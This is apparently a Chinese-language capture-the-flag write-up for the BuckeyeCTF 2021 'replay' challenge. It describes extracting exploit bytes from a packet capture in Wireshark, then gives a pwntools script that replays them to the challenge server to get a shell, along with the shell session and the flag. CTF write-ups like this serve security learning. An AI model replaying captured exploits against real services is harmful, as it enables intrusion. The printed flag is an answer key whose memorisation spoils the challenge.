

# replay

*Somebody pwned my app! Luckily I managed to capture the network traffic of their exploit. Oh by the way, the same app is also running on `misc.chall.pwnoh.io` on port `13371`. Can you pwn it for me?*

----

使用[Wireshark](https://www.wireshark.org/download.html)分析`replay.pcap`文件,跟踪TCP流,发现似乎是发送了一些数据拿到Shell权限后,执行了一些命令.

对着“Data”右键,选择“导出分组字节流”,保存字节流数据至`a.bin`



编写脚本,使用[pwn](https://github.com/Gallopsled/pwntools)连接服务器并发送数据,执行shell命令,找到`flag.txt`文件

```shell
╭─ ~/CTF/BuckeyeCTF2021
╰─$ python a.py
[+] Opening connection to misc.chall.pwnoh.io on port 13371: Done
[*] Switching to interactive mode
$ ls
chall
flag.txt
$ cat flag.txt
buckeye{g00d_th1ng_P1E_w4s_d1s4bl3d_0n_th3_b1n4ry}
```

代码:

```python
from pwn import *
p = remote('misc.chall.pwnoh.io', 13371)
p.recvuntil(b'TODAY', drop=True)
p.recvline()
with open('a.bin','rb') as f:
    data  = f.read()
p.send(data)
p.interactive()
p.close()
```


**flag:**`buckeye{g00d_th1ng_P1E_w4s_d1s4bl3d_0n_th3_b1n4ry}`
